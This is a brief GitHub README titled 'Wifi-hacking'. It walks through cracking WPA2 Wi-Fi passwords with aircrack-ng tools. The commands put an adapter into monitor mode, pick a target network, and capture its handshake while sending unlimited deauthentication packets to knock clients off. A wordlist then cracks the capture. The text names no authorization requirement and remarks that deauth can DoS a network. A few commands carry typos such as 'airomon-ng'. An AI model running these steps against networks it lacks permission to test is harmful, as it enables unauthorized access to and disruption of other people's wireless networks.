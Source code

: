 # Wifi-hacking

## Table of content

- [hardware](#hardware)
- [tools](#tools)
  - [aircrack ng](#aircrack-ng)
  - [airmon ng](#airmon-ng)
  - [airodump ng](#airodump-ng)
  - [wifite](#wifite)
- [cracking manualy with aircrack tools](#cracking-manualy-with-aircrack-tools)
  - [kill processes](#kill-processes)
  - [interface to monitor mode](#interface-to-monitor-mode)
  - [discover wifi](#discover-wifi)
  - [view just the target](#view-just-the-target)
  - [capture WPA2 handshake plus deauthenticate](#capture-WPA2-handshake-plus-deauthenticate)
  - [cracking the handshake](#cracking-the-handshake)

  
  

  
### hardware
  
my recommended use is Alfa AWUS036ACH-C
  
example site:
```
https://cdon.se/hemelektronik/alfa-awus036ach-c-p85144443?gclid=Cj0KCQjwof6WBhD4ARIsAOi65ajClanJarTELWA8x2m-jddNlS2pyJNLfaKC6foh1Ex3yA0PkQHw674aAoA8EALw_wcB
```
  
### tools 
  
## aircrack ng
  
## airmon ng
  
## airodump-ng
  
## wifite
  
## cracking manualy with aircrack tools
### kill processes
killing the processes that may interfere
```
sudo airmon-ng check kill
```

### interface to monitor mode
to put the interface/adapter to monitor mode type:
```
sudo airmon-ng start <interface>
```

### discover wifi
to search and find wifi in the area type:
```
sudo airodump-ng <interface>
```
then you should find the wifi you want to target and write up
*   BSSID (it is the mac address)
*   Channel (CH)

### view just the target
to see just the target type:
```
sudo airodump-ng <interface> -d <BSSID>
```
then you can see info about the target
plsu you can see clients connected to the network


### capture WPA2 handshake plus deauthenticate
now you will capture the WPA2 handshake. type:
```
sudo airodump-ng -w <name of the file you want to name for the capture> -c <channel> --bssid <BSSID> <interface>
```
press enter
then at the same time after entered the capture and letting it go we will go on and open a second window/terminal we will deauthenticate clients from the network by typing:
```
sudo aireplay-ng --deauth 0 -a <BSSID> <interface>
```
(ops the deauth part can sometimes be used to Ddos a wifi network)

then after a while the handshake should be captured

### cracking the handshake
we should have a file which ends with ".pcap" 
we have to put the adapter which is on monitor mode back to manage mode by typing: 
```
sudo airomon-ng stop <interface>
``` 
now its time to crack the .pcap file
```
aircrack-ng <the pcap file> -w <wordlist to crack the password>
```



